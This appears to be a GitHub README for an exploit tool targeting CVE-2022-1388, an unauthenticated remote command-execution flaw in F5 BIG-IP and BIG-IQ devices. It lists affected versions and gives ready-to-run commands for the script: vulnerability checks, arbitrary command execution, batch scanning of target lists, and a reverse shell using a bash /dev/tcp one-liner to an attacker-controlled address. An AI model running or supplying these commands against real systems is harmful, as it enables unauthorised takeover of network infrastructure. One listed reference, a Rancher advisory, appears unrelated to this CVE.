 ## Vuln Impact

This vulnerability may allow an unauthenticated attacker with network access to the BIG-IP system through the management port and/or self IP addresses to execute arbitrary system commands, create or delete files, or disable services. 

## Vuln Product

- F5 BIG-IQ 11.6.1 - 11.6.5
- F5 BIG-IP 12.1.0 - 12.1.6
- F5 BIG-IP 13.1.0 - 13.1.4
- F5 BIG-IP 14.1.0 - 14.1.4
- F5 BIG-IP 15.1.0 - 15.1.5
- F5 BIG-IP 16.1.0 - 16.1.2

## Vunl Check

**Basic usage**

```
python3 CVE_2022_1388.py
```

![use](img/use.png)

**Vuln check**

```
python3 CVE_2022_1388.py -v true -u https://192.168.17.200
```

![verify](img/verify.png)

**command execute:**

```
python3 CVE_2022_1388.py -a true -u https://192.168.17.200/ -c id
```

![command_exec](img/exec.png)

```
python3 CVE_2022_1388.py -a true -u https://192.168.17.200/ -c whoami
```

![exec_2](img/exec_2.png)

**batch scan**

```
python3 CVE_2022_1388.py -s true -f check.txt
```

![batch_scan](img/vul_scan.png)

**Reserve Shell**

```
python3 CVE_2022_1388.py -r true -u https://192.168.17.200 -c "bash -i >&/dev/tcp/192.168.17.175/8888 0>&1"
```

![reverse_shell](img/reverse_shell.png)

![reverse_shell_ok](img/reverse_shell_ok.png)


## Reference

https://support.f5.com/csp/article/K23605346

https://mp.weixin.qq.com/s/OC52LIGB5NTITy9EjvKdaw

https://twitter.com/jas502n/status/1523611433938059265

https://cve.mitre.org/cgi-bin/cvename.cgi?name=2022-1388

https://github.com/rancher/rancher/security/advisories/GHSA-pvxj-25m6-7vqr
